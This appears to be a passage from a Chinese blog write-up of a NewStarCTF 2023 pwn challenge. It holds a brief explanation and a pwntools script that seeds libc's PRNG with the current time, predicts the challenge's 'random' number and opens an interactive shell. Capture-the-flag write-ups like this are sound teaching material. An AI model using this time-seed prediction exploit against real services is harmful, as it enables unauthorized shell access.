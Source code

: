 通过ctype库加载libc.so库，使用同样的time(0)达到产生同样随机数的效果，然后system($0)同样可以getshell

```
from pwn import *
from LibcSearcher import *
from ctypes import *

file_name = './random'

debug = 0
if debug:
	io = remote('node4.buuoj.cn',26238)
else:
	io = process(file_name)

elf = ELF(file_name)

context(arch = elf.arch,log_level = 'debug',os = 'linux')

def dbg():
	gdb.attach(io)

libc = cdll.LoadLibrary('libc.so.6')

libc.srand(libc.time(0))
a = libc.random()

io.sendlineafter('number?\n',str(a))

io.interactive()
```



---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/10/newstarctf2023-week1-pwn/  

